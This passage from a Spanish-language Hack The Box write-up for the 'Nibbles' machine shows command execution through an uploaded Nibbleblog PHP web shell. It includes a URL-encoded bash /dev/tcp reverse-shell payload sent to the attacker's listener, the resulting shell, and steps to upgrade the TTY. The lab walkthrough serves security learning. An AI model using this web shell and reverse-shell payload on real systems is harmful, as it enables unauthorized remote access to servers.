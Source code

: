`Analizando` el `código` del `exploit` vemos que la `ruta` donde se `sube` nuestro archivo `.php` es `http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami`. El output que nos devuelve este comando es el siguiente

![](/assets/img/Nibbles/image_7.png)

Vamos a mandarnos una `reverse shell` a nuestro `equipo`, para ello debemos ponernos en escucha por el `puerto 443` y usar este `payload` en la `url`. El `payload` ha sido `generado` en [https://www.revshells.com/](https://www.revshells.com/)

```
# nc -nlvp 443
```

```
http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.15%2F443%200%3E%261%27
```
## Intrusión

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443             
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.96.84] 50734
bash: cannot set terminal process group (1351): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
